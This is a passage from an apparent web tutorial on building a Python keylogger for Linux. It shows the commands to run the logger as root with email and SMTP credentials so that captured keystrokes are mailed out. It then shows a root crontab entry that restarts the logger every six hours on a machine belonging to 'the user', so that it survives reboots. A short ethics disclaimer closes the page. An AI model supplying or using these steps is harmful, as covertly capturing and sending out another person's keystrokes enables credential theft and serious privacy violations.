 ```bash
chmod +x keylogger.py
```

**Usage**

To start your keylogger simply execute the below command using your email parameters. Also please note, to avoid any problem, we highly recommend executing this script with **root** privileges.

```bash
# Buffer size is the number of characters saved in memory before sending an email
sudo python keylogger.py [email] [password] [smtp-server] [tls/notls] [buffer-size]
```

* * *

### Create a Persistence Mechanism

If the user of the computer on which we installed keylogger off or reboot his machine, this will result in the deactivation of our keylogger. So we need a persistence mechanism, to enable our keylogger automatically every time the machine it's stopped or restarted.

Linux offers us many possibilities to do this! For this tutorial, I choose to use the **crontab** option which perfectly matches our needs and very easy to use.

The command to edit the **cron** configuration file is `crontab -e` (We execute it in root because our script needs root permissions to read the keyboard event\*)

```bash
sudo crontab -e
```

Once your crontab editor it's open, simply past the below configuration at the rock bottom of your cron configuration file, replacing first the parameters with your owns and save it before to exit. (The output should look like the below screenshot)

![Want to Create a Linux Keylogger Using Python? Here's How!](https://neoslab.com/uploads/medias/2020/02/want-to-create-a-linux-keylogger-using-python-here-s-how-4.png "Want to Create a Linux Keylogger Using Python? Here's How!")

```bash
00 */6 * * * ./path/to/keylogger.py [email] [password] [smtp-server] [tls/notls] [buffer-size]
```

If you want to be sure that the rules of your crontab have been taken into account by your operating system, simply use the below command to get the list of all cron jobs.

```bash
sudo crontab -l
```
To understand you have to know the syntax of cron: the numbers give the period when we start to execute the job (seconds, minutes, hours, days, days of the week, month, etc) and the command to execute follows, in our case, we run the keylogger every 6h.

* * *

## Conclusion

The keylogger records keystrokes made by users, but it’s essential to approach this knowledge responsibly and ethically. The provided Python script initializes an empty list to store pressed keys, and it captures both alphanumeric and special keys. Remember that using keyloggers without proper consent is unethical and potentially illegal. Always respect privacy and follow legal guidelines when exploring such tools.
